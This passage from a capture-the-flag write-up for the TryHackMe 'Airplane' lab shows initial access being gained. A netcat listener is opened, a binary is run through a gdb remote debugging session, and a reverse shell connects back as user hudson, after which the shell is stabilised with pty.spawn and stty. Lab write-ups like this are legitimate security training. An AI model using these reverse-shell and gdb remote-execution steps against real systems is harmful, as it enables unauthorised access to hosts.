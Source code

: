 ## Netcat

Now the listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...

```

Now we run it :

```bash
(gdb) set remote exec-file /tmp/binary.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /tmp/binary.elf from remote target...
Reading /tmp/binary.elf from remote target...
Reading symbols from target:/tmp/binary.elf...
(No debugging symbols found in target:/tmp/binary.elf)
[Detaching after fork from child process 2934]
[Inferior 1 (process 2933) exited normally]
```

And we have initial access :

```bash
 ┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...

connect to [10.8.162.183] from (UNKNOWN) [10.10.12.222] 40840
whoami
hudson
ls
airplane
```

## Shell Stabilization

We can do [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                
hudson@airplane:/opt$ ^Z                                                                                                      
zsh: suspended  nc -lvnp 1337                                                                                                 
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
hudson@airplane:/opt$ 
```
